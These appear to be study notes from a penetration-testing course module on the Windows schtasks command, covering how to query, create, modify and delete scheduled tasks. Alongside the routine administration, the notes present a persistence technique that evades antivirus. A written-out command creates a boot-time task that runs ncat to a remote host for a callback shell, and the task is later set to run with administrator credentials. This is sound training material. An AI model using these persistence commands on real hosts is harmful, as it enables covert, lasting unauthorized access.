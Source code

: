 ### Introduction
- Scheduled tasks are an excellent way for administrators to ensure that tasks they want to run regularly happen, but they are also an excellent persistence point for attackers. In this section, we will discuss using schtasks to:
	- Learn how to check what tasks exist.
	- Create a new task to help us automate actions or acquire a shell on the host.


### What Are Scheduled Tasks?
- The Task Scheduler allows us as admins to perform routine tasks without having to kick them off manually. The scheduler will monitor the host for a specific set of conditions called triggers and execute the task once the conditions are met.

> **Story Time: On several engagements, while pentesting an enterprise environment, I have been in a position where I landed on a host and needed a quick way to set persistence. Instead of doing anything crazy or pulling down another executable onto the host, I decided to search for or create a scheduled task that runs when a user logs in or the host reboots. In this scheduled task, I would set a trigger to open a new socket utilizing PowerShell, reaching out to my Command and Control infrastructure. This would ensure that I could get back in if I lost access to this host. If I were lucky, when the task I chose ran, I might also receive a SYSTEM-level shell back, elevating my privileges at the same time. It quickly ensured host access without setting off alarms with antivirus or data loss prevention systems.**

- #### Triggers That Can Kick Off a Scheduled Task
	- When a specific system event occurs.
	- At a specific time.
	- At a specific time on a daily schedule.
	- At a specific time on a weekly schedule.
	- At a specific time on a monthly schedule.
	- At a specific time on a monthly day-of-week schedule.
	- When the computer enters an idle state.
	- When the task is registered.
	- When the system is booted.
	- When a user logs on.
	- When a Terminal Server session changes state.
- This list of triggers is extensive and gives us many options for having a task take action. Now that we know what scheduled tasks are and what can make them actionable, it is time to look at using them.


### How to Utilize Schtasks
- In the sections provided below, we will go over exactly how we can utilize the `schtasks` command to its fullest extent. Additionally, as we go over them in greater detail, a formatted table providing the syntax for each action will be provided.
- Note that the sections provided here are not an end-all-be-all. Several of the repetitive parameters have been omitted. Be sure to check the help menu `/?` to see a complete list of what can be used.
- #### Display Scheduled Tasks:
- #### Query Syntax
![[Screenshot_20241110_202211.png]]
- We can view the tasks that already exist on our host by utilizing the `schtasks` command like so:
```cmd-session
C:\htb> SCHTASKS /Query /V /FO list

Folder: \  
HostName:                             DESKTOP-Victim
TaskName:                             \Check Network Access
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive only
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-Victim\htb-admin
Task To Run:                          C:\Windows\System32\cmd.exe ping 8.8.8.8
Start In:                             N/A
Comment:                              quick ping check to determine connectivity. If it passes, other tasks will kick off. If it fails, they will delay.
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          tru7h
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```
- Chaining our parameters with `Query` allows us to format our output from the standard bulk into a list with advanced settings. The above output shows how the tasks would look in a list format.
- #### Create a New Scheduled Task:
- #### Create Syntax
![[Screenshot_20241110_202241.png]]
- Creating a new scheduled task is pretty straightforward. At a minimum, we must specify the following:
	- `/create` : to tell it what we are doing
	- `/sc` : we must set a schedule
	- `/tn` : we must set the name
	- `/tr` : we must give it an action to take
- Everything else is optional. Let us see an example below of how we could create a task to help us get a shell.

### New Task Creation
```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

> **A great example of a use for schtasks would be providing us with a callback every time the host boots up. This would ensure that if our shell dies, we will get a callback from the host the next time a reboot occurs, making it likely that we will only lose access to the host for a short time if something happens or the host is shut down. We can create or modify a new task by adding a new trigger and action. In our task above, we have schtasks execute Ncat locally, which we placed in the user's AppData directory, and connect to the host `172.16.1.100` on port `8100`. If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.**

- Now let us look at what modifying a task would look like.

### Change the Properties of a Scheduled Task
- #### Change Syntax
![[Screenshot_20241110_202337.png]]
- Ok, now let us say we found the `hash` of the local admin password and want to use it to spawn our Ncat shell for us; if anything happens, we can modify the task like so to add in the credentials for it to use.
```cmd-session
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.
```
- Now to make sure our changes took, we can query for the specific task using the `/tn` parameter and see:
```cmd-session
C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```
- It looks like our changes were saved successfully. Managing tasks and making changes is pretty simple. We need to ensure our syntax is correct, or it may not fire. If we want to ensure it works, we can use the `/run` parameter to kick the task off immediately. We have `queried, created, and changed` tasks up to this point. Let us look at how to delete them now.


### Delete the Scheduled Task(s)
- #### Delete Syntax
![[Screenshot_20241110_202422.png]]
```cmd-session
C:\htb> schtasks /delete  /tn "My Secret Task" 

WARNING: Are you sure you want to remove the task "My Secret Task" (Y/N)?
```
- Running `schtasks /delete` is simple enough. The thing to note is that if we do not supply the `/F` option, we will be prompted, like in the example above, for you to supply input. Using `/F` will delete the task and suppress the message.
- Schtasks can be a great way to leverage the host to run actions for us as admins and pentesters. Take some time to practice creating, modifying, and deleting tasks. By now, we should be comfortable with `cmd.exe` and its workings. Let's level up and start working in `PowerShell`!


### Questions
- True or False: A scheduled task can be set to run when a user logs onto a host?
	- True
- Access the target host and take some time to practice working with Scheduled Tasks. Type COMPLETE as the answer when you are ready to move on.
	- Complete